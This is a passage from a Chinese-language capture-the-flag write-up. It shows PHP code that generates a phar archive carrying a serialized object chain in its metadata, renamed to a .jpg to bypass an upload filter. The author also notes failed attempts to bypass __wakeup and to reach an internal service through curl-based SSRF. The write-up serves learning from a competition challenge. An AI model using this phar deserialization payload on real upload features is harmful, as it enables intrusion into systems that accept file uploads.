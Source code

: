```php
        $this->file = $file;
    }

}

$o = new GuestShow(new AdminShow());

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test"); 
$phar->stopBuffering();

?>
```

生成文件改名 `guestdemo123.jpg` 用于绕过字符串检测

![20220731165538](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220731165538.png)

上传成功, 但读取不了...

![20220731165551](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220731165551.png)

![20220731165606](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220731165606.png)

触发了 AdminShow 中的 `__wakeup` 方法, 当时用改数字的方法绕过 `__wakeup` 没成功

这题一开始 showfile.php 没读出来, 想着关键信息是不是在这里面啊, 后来等比赛结束了之后用那个链接竟然读出来了...

晚上想了想应该是 curl + ssrf 内网探测, 不过 payload 一直失败, 以为是 `__wakeup` 的问题

今天才发现反序列化的时候是不会执行 `__construct` 方法的, 也就是说此时 AdminShow 中的 `$this->schema` 是空值, 单独的 `$this->source` 用 curl 当然读不出来...

现在题目服务器已经关了, 也没机会测试了...